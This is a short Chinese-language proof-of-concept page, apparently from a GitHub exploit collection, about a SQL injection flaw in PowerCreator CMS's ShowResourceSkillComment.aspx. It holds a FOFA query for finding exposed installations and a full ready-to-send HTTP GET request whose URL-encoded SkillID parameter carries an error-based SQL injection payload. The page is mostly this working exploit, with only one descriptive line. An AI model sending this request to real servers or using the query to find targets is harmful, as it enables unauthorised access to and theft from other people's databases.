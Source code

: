 ## PowerCreator接口ShowResourceSkillComment.aspx存在sql注入漏洞

PowerCreator接口 ShowResourceSkillComment.aspx存在sql注入漏洞。攻击者可利用该漏洞获取服务器上的信息。

## fofa

```yaml
app="PowerCreator-CMS"
```

![image](https://github.com/user-attachments/assets/fcc5c0c8-6a56-42a0-9aba-0d65b1d63a56)

## poc

```yaml
GET /ShowResourceSkillComment.aspx?rid=3&SkillID=1%20AND%204312%20IN%20%28SELECT%20%28CHAR%28113%29%2BCHAR%28122%29%2BCHAR%28106%29%2BCHAR%28106%29%2BCHAR%28113%29%2B%28SELECT%20%28CASE%20WHEN%20%284312%3D4312%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%28113%29%2BCHAR%28122%29%2BCHAR%28120%29%2BCHAR%28118%29%2BCHAR%28113%29%29%29 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: ASP.NET_SessionId=l2wuj2tri5e554020jeezoyw; language=simpleChineses
Pragma: no-cache
Cache-Control: no-cache


```
